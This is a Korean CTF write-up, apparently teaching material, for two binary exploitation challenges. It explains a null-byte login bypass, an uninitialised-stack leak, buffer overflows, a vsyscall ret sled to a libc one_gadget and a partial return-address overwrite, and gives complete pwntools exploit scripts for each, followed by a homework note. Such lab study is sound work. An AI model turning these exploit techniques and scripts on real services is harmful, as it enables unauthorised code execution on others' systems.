 # exploitable

### Binary Reversing

이 바이너리를 실행하면 4개의 메뉴가 뜬다. 

```
1.Login
2.Exploit
3.Leak
4.Exit
```

1번 메뉴에서는 로그인 기능, 2번 메뉴에서는 취약점 트리거 기능, 3번 메뉴에서는 admin id 릭 기능이 구현되어있다.
참고로 4보다 큰 수를 메뉴 입력으로 주면 0xc58 함수를 다시 호출할 수 있다.

### Vulnerability

Login 기능에서 \x00을 입력으로 주면 로그인을 간단히 우회할 수가 있다. 그 후 3번에서 admin id를 알아낼 수 있다.(간단한 덧셈문제만 풀면 됨)
이 프로그램의 취약점은 아주 명료하다. 바로 2번 Exploit메뉴에서의 스택 버퍼오버플로우이다. 
그러나 8의 배수의 길이로만 페이로드를 넣어야하고, 그렇지 않으면 8의 배수에 맞추어 null byte를 붙인다. PIE가 걸려있으므로 주소 leak을 하거나 partial overwrite 등의 방법을 고려해볼 수 있겠으나 이 둘 모두 불가능한 상태이다. 그러면 다른 취약점이 또 있나 찾아보도록 하겠다. 
3번 Leak메뉴를 보면 정수를 입력받아 ```rbp-0x50```에 넣고, ```rbp-0x48```에 그 값을 더한다. 그러나 음수를 입력으로 넣으면 초기화되지 않은 ```rbp-0x48```에 그 값을 더할 수 있다. 그렇다면 이를 이용해 exploit을 해보도록 하겠다.

### Exploit

IDA로 hex-ray 했을 땐 보이지 않지만, 0x9e0 함수를 보면 stack에 stdin, stdout, stderr 값을 넣는다. 이는 LIBC에 있는 주소이므로 스택에 LIBC 주소가 들어간단 뜻이다. 위에서 언급한 0xc58 함수로의 재귀 기능을 이용하여 스택을 잘 움직여 3번 Leak 기능으로 LIBC 값 one_gadget 주소로 바꾼 후 vsyscall ret sled를 이용하면 exploit할 수 있다. 

```
#!/usr/bin/python

from pwn import *
import time

DEBUG=0
s=process("./exploitable_for_challenger",env={"LD_PRELOAD":"./libc.so.6"})
#s=remote('192.168.50.151',21227)

def login(id):
    s.sendline("1")
    s.recvuntil(":\n")
    s.sendline(id)
    s.recvuntil("Exit\n")

def leak(value):
    s.sendline("3")
    s.recvuntil("positive x\n")
    s.sendline(str(value))
    return s.recvuntil("Exit\n")

def exploit(payload,a=0):
    s.sendline("2")
    time.sleep(0.1)
    if DEBUG:
        s.send("*"*41+"\x00"*7)
    else:
        s.send("hello_administrator_you_are_good_at_math!"+"\x00"*7)

    time.sleep(0.1)
    s.recvuntil("exploit!")
    if a:
        pause()
    s.send(payload)

def recall():
    s.sendline("5")
    s.recvuntil("Exit\n")

login("\x00")
leak(-0x3802d6)
recall()
recall()
exploit(p64(0xffffffffff600000)*(0x2c+9),1)
s.interactive()
```




# First

### Exploit

이 문제는 소스코드가 제공되었기 때문에 분석 단계는 건너뛰도록 하겠다.
```handle_request```함수에서 ```require_auth``` 함수를 부르고, 거기서 ```check_password_correct``` 함수를 부른다. ```check_password_correct```함수에서 90바이트까지 입력을 넣을 수 있는데, 입력받는 버퍼가 ```rbp-0x48```에 위치해 있으므로 buffer overflow가 터진다. PIE가 걸려있기 때문에 ROP는 불가능하고, Partial Overwrite를 통해 flag를 읽어야한다. ```handle_request```에서 ```require_auth```를 call할 때 스택에 ```code+0x105b```의 주소를 push하는데, 이는 flag파일을 읽어와 출력해주는 코드의 주소이다. 그러면 이 주소를 이용해 exploit해보도록 하겠다. exploit 성공 확률은 대략 1/16이다.

```
#!/usr/bin/python

from pwn import *

s=remote('localhost',1514)

s.recvuntil("password: ")

s.sendline(str(0x5a))

pay = "A"*0x48
pay += p64(0xffffffffff600000)*2
pay += "\x8b\x80"

s.sendline(pay)

s.interactive()
```



# Assignments

Second, Third 를 푼 사람이 거의 없기 때문에 이 두문제 + 첨부된 하나의 문제 중 하나 이상을 제출해주시면 됩니다. Second나 Third를 풀었던 사람은 과제를 해도되고 안해도됩니다.

Second 힌트 : index under(over)flow
